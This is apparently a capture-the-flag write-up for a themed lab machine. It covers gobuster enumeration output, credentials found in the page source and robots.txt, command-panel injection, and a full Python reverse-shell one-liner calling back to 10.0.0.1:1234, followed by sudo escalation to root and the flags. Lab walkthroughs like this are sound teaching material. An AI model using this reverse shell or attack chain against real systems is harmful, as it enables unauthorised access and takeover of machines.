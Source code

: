 # Steps to find the ingredients
- Page source of 10.10.57.239 shows user name as R1ckRul3s

- Ran Gobuster command: 

gobuster dir -u http://10.10.57.239 -w /usr/share/wordlists/dirb/common.txt -t 250 -x txt,php,js,html

Results:

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.57.239
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,js,html
[+] Timeout:                 10s
===============================================================
2021/06/28 19:15:53 Starting gobuster in directory enumeration mode
===============================================================
/.hta.html            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.hta.txt             (Status: 403) [Size: 295]
/.hta.php             (Status: 403) [Size: 295]
/.hta.js              (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 300]
/.htaccess.js         (Status: 403) [Size: 299]
/.htaccess.html       (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 296]
/.htpasswd.js         (Status: 403) [Size: 299]
/.htpasswd.html       (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.htpasswd.php        (Status: 403) [Size: 300]
/assets               (Status: 301) [Size: 313] [--> http://10.10.57.239/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                   
/index.html           (Status: 200) [Size: 1062]                                 
/index.html           (Status: 200) [Size: 1062]                                 
/login.php            (Status: 200) [Size: 882]                                  
/portal.php           (Status: 302) [Size: 0] [--> /login.php]   
/robots.txt           (Status: 200) [Size: 17]                                   
/robots.txt           (Status: 200) [Size: 17]                                   
/server-status        (Status: 403) [Size: 300]      
- Checked the URL for http://10.10.57.239/robots.txt
Showed text Wubbalubbadubdub – possible password

- Checked http://10.10.57.239/login.php and logged in with:
Username: R1ckRul3s
Password: Wubbalubbadubdub

- Due to the command panel not allowing cat or echo commands, used the grep –R . command and checked the page source to find the one of the ingredients
Sup3rS3cretPickl3Ingred.txt: flag{mr. meeseek hair}

- Used to python command from PentestMonkey.net to inject a reverse shell into the command panel
Before running the shell, setup a listening port on 1234 using nc –lvnp 1234
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- While logged into the shell, found the second ingredients file in /home/rick
Flag{1 jerry tear} 

- changed to a root user using the sudo su command, changed to root directory and found the flag in the 3rd.txt file
Flag{fleeb juice}
